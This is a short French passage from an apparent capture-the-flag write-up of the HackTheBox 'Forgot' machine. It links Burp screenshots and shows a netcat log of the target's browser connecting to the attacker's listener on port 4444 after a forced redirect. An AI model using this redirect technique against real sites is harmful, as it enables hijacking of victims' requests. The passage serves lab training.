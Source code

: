 Nous allons envoyer une requête


![BURP_request_redirection.png](https://github.com/RawMain121/writeups/blob/main/HackTheBox/Forgot/_resources/BURP_request_redirection.png)

On fait suivre la redirection vers notre adresse IP 



![BURP_requet_follow.png](https://github.com/RawMain121/writeups/blob/main/HackTheBox/Forgot/_resources/BURP_requet_follow.png)






Netcat :

```bash
Ncat: Connection from 10.10.14.41.
Ncat: Connection from 10.10.14.41:49540.
GET / HTTP/1.1
Host: 10.10.14.41:4444
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Referer: http://forgot.htb/

```
